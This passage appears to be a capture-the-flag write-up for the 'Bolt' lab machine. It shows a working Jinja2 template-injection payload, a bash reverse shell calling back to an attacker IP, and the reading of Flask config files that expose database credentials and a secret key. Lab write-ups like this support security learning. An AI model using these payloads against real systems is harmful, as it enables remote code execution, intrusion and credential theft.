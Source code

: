 - It looks like it works
  - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python
  - The payload: `{{ namespace.__init__.__globals__.os.popen('id').read() }}`

![](./images/18.png)

- Let's get reverse shell
  - `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.9/6666 0>&1"').read() }}`

![](./images/19.png)

## User
- Enumerate
```
www-data@bolt:~$ cat /var/www/dev/config.py
cat dev/config.py
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek'
MAIL_SERVER = 'localhost'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
#MAIL_DEBUG = app.debug
MAIL_USERNAME = None
MAIL_PASSWORD = None
DEFAULT_MAIL_SENDER = 'support@bolt.htb'
```
```
www-data@bolt:~$ cat /var/www/demo/config.py
cat demo/config.py
"""Flask Configuration"""
#SQLALCHEMY_DATABASE_URI = 'sqlite:///database.db'
SQLALCHEMY_DATABASE_URI = 'mysql://bolt_dba:dXUUHSW9vBpH5qRB@localhost/boltmail'
SQLALCHEMY_TRACK_MODIFICATIONS = True
SECRET_KEY = 'kreepandcybergeek'
MAIL_SERVER = 'localhost'
MAIL_PORT = 25
MAIL_USE_TLS = False
MAIL_USE_SSL = False
#MAIL_DEBUG = app.debug
```